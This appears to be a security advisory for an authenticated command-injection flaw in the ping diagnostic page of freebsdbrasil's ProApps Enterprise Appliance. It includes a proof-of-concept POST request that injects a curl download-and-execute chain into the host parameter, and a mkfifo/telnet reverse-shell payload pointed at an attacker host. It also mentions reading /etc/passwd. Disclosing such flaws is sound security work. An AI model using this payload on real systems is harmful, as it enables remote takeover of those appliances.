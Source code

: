 # Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Remote Code Execution

## Description Vulnerability:
The vulnerability occurs because a user can inject system commands through the application using the ping functionality by adding a sequence command operator in Unix environments, such as (;, &&, or |).
To exploit the vulnerability it's necessary to be authenticated. The user must belong to a permission group called 'Status' and have 'Modified' Permission.
It is also important to mention that successful exploitation requires bypassing input sanitization. The application validates user input only on the front end, making it necessary to send the request through a network proxy, for example. In this way the limitations imposed by the application to be bypassed."

## Exploitation:
After authentication, it will be necessary to access a page called `sta_rede.diagnostico_ping` (http(s)://vulnerablepage.index.php?page=sta_rede.diagnostico_ping&task=view).
This page provides a function to perform an ICMP request to an arbitrary host. To learn more about the ping utility and the ICMP protocol (Request and Reply), please refer to the RFC mentioned in the references section.

The application sends a POST request with the parameters host, testar_pacote, and ttl, where `host` is the target of the ping, `testar_pacote` specifies the number of ICMP requests to send, and `TTL` is time to Live (TTL) for the packets. Upon send the request the application executes the following command on the Unix system: `ping -c $testar_pacote $host`.

This is where an attack vector is noticed. A user can exploit the vulnerability by sending a malicious POST request through a network proxy to bypass input sanitization by appending one of the sequence command operators (;, &&, or |) to the host parameter, the web application will execute the ping command mentioned above, followed by an additional command. For example, this could include reading sensitive files like `/etc/passwd`, `/etc/master.passwd` or get a reverse shell or execute arbitrary commands.

## Reverse Shell POC:
HTTP POST Request to `sta_rede.diagnostico_ping`:
`page=sta_rede.diagnostico_ping&host=x.x.x.x;curl -O http://attackserver/maliciousfile.sh; chmod +x maliciousfile.sh; ./maliciousfile.sh&testar_pacote=1&ttl=64`

### Maicious file content:
TF=$(mktemp -u);mkfifo $TF && telnet $attacker.ip $attacker.port 0<$TF | sh 1>$TF

By listening on the specified port with Netcat, a reverse shell is successfully opened.

## Impact Vulnerability:
RCE (Remote Code Execution) vulnerabilities allow an attacker to execute arbitrary code on a remote device, it can lead in a Full System Compromise, Data Breach, Lateral Movement, Malware Deployment and Reputational and Financial Damage.

### References:
- https://www.rfc-editor.org/rfc/rfc777
- https://www.checkpoint.com/cyber-hub/cyber-security/what-is-remote-code-execution-rce/

